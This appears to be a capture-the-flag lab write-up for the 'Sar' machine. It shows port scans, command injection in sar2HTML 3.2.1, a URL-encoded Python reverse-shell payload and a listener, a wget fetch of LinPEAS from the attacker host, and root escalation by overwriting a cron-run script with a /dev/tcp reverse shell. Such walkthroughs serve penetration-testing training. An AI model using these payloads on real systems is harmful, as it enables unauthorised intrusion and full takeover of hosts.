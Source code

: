 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.223.35 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:39 EDT
Initiating Parallel DNS resolution of 1 host. at 00:39
Completed Parallel DNS resolution of 1 host. at 00:39, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:39
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:39, 0.18s elapsed (2 total ports)
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:39:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
> rustscan -u 5000 -p 22,80 -a 192.168.223.35 -- -Pn -sCV
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:41 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 00:41
Completed Parallel DNS resolution of 1 host. at 00:41, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:41
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:41, 0.18s elapsed (2 total ports)
Initiating Service scan at 00:41
Scanning 2 services on 192.168.223.35
Completed Service scan at 00:41, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.223.35.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 5.23s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:41:07 EDT for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

TCP 80/HTTP
```
http://192.168.223.35/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/31152133-0eb4-4522-bc9e-f5956a2aff7d)

```
http://192.168.223.35/robots.txt
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e9abd33-9946-40ed-ab55-5f65f2817b7f)

```
http://192.168.223.35/sar2HTML/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/438bef78-7664-45e9-a7ce-b4bca7043cae)

```
> searchsploit sar2html 3.2.1
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e51793a-dee2-4983-b150-c920c143391e)

```
> searchsploit -m php/webapps/49344.py
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/c58c4b88-64cb-4113-b971-b841f661c5e8)
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/52e5d38e-d619-41e9-ad59-93883841f451)

Manual Exploitation
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/cb1df527-fa04-407d-b858-a46b74333ee8)
```
http://192.168.223.35/sar2HTML/index.php?plot=;whoami
```

Reverse Shell
```
http://192.168.223.35/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.231%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e84d691-8330-48c7-a59f-c9ce5965aaaa)

```
> rlwrap nc -nlvvp 9090
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3796063f-129a-4c41-bbdf-c1eff80cf73b)

Privilege Escalation
LinPEAS
```
www-data@sar:/tmp$ wget http://192.168.45.231/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/2af4b81a-f610-4e8e-9062-fedde44ca54d)

```
www-data@sar:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/04d98692-aaaa-4733-b86e-5ebb5e19cae4)

List Cronjobs
```
www-data@sar:/var/www/html/sar2HTML$ less /etc/crontab
```
```
less /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

```
https://crontab.guru/#*/5_*_*_*_*
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/79d4c817-c88c-4ca6-a9cb-a15efc23e576)

finally.sh
```
#!/bin/sh

./write.sh
```

write.sh
```
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ 
```

Overwrite the contents of write.sh
```
www-data@sar:/var/www/html$ echo "bash -i >& /dev/tcp/192.168.45.231/9999 0>&1" > write.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3c68e5f7-0b2f-44fa-94fa-ab033bbfd3da)
